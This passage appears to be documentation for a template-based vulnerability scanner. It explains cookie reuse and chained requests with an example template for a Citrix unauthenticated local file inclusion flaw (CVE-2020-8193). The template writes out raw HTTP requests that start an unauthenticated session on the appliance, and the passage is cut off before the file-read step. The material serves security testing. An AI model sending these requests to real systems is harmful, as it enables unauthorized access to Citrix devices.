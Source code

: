        testing=parameter

    cookie-reuse: true # Cookie-reuse maintain the session between all request like browser.
    matchers:
      - type: word
        words:
          - \"Test is test matcher text\"
```
​
Dynamic variable support

This template makes a subsequent HTTP requests maintaining sessions between each request, dynamically extracting data from one request and reusing them into another request using variable name and checking for string match against response.

```
id: CVE-2020-8193

info:
  name: Citrix unauthenticated LFI
  author: princechaddha
  severity: high
  reference: https://github.com/jas502n/CVE-2020-8193

http:
  - raw:
      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
        Content-Type: application/xml
        X-NITRO-USER: xpyZxwy6
        X-NITRO-PASS: xWXHUJ56

        <appfwprofile><login></login></appfwprofile>

      - |
        GET /menu/ss?sid=nsroot&username=nsroot&force_setup=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/neo HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/stc HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

